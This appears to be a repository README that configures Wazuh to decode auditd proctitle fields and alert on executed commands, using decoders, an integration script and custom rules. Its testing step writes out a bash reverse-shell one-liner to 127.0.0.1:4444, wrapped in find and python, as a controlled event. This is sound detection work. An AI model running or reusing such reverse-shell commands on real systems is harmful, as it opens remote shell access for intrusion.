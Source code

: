 # Auditd + Wazuh with proctitle decoding integration

## 1. Objective

This integration allows you to:

* Capture auditd events (types SYSCALL, EXECVE, and PROCTITLE).

* Decode the proctitle field, which comes in hexadecimal, and transform it into human-readable text.

* Enrich Wazuh events with the exact command executed by the user.

* Generate correlation rules that trigger alerts when syscall=execve calls and specific commands are detected.

## 2. Requirements

* Wazuh Manager 4.12 (tested on this version).

* Auditd installed, enabled, and generating logs in /var/log/audit/audit.log.

* Auditd rules that log execve and proctitle, for example in /etc/audit/rules.d/audit.rules:

```bash
-a always,exit -F arch=b64 -S execve -k execmonitor
-a always,exit -F arch=b32 -S execve -k execmonitor
```

## 3. Step by step

### 3.1. Create custom decoders

* Modify the configuration to edit the default Auditd decoder in Wazuh.
 
* The relevant file is __0040-auditd_decoders.xml__

* Follow the documentation to apply this configuration: https://documentation.wazuh.com/4.6/user-manual/ruleset/custom.html

Includes decoders for:

* SYSCALL (extracts uid, auid, exe, syscall, comm, pid, ppid).

* PROCTITLE (extracts the hex field).

* EXECVE (extracts optional arguments).

Example block for PROCTITLE:

```xml
<!-- PROCTITLE -->
<decoder name="auditd-syscall">
  <parent>auditd</parent>
  <regex offset="after_regex">type=PROCTITLE msg=audit\(\S+\): proctitle=(\.+)</regex>
  <order>audit.proctitle.msg, audit.proctitle.value</order>
</decoder>
```

### 3.2. Decoding script (custom integration)

File: __/var/ossec/integrations/custom-auditd_decoder.py__

This script converts the HEX proctitle field into clear text and returns it as a new generated alert.

Required Permissions:

```bash
chmod 750 /var/ossec/integrations/custom-auditd_decoder.py
chown root:wazuh /var/ossec/integrations/custom-auditd_decoder.py
```

### 3.3. Define the integration in Wazuh

In __/var/ossec/etc/ossec.conf__, inside __<ossec_config>__:

```xml
<integration>
  <name>custom-auditd_decoder.py</name>
  <rule_id>100371</rule_id>
  <alert_format>json</alert_format>
</integration>
```

### 3.4. Create custom rules

File: __/var/ossec/etc/rules/audit_custom.xml__

Basic Example:

```xml
<rule id="100365" level="3">
    <if_sid>80700</if_sid>
    <field name="audit.type">SYSCALL</field>
    <description>Auditd: Syscall</description>
</rule>

<rule id="100371" level="3">
    <if_sid>100365</if_sid>
    <field name="audit.proctitle.msg">(\S+)</field>
    <description>Auditd: evento de syscall encodeado</description>    
</rule>

<rule id="100390" level="3">
    <field name="integration">custom-auditd_decoder</field>
    <description>Auditd: evento decodeado</description>    
</rule>

```

## 4. Restart services

After each change, restart Wazuh Manager:

```bash
systemctl restart wazuh-manager
```

## 5. Verification and testing

### 1. Generate a controlled event by executing:

```bash
find /tmp -name "temp_file.txt" -exec /usr/bin/python3 -c "import os; os.system('bash -i >& /dev/tcp/127.0.0.1/4444 0>&1')" \;
```

### 2. Check the Wazuh log

![](./media/auditd1.png)

![](./media/auditd2.png)

![](./media/auditd3.png)

## 6. Expected results

Each command execution via execve is reflected in Wazuh with:

* User (uid, auid).
  
* Process (exe, comm, pid, ppid).
  
* Exact command in clear text (proctitle.msg).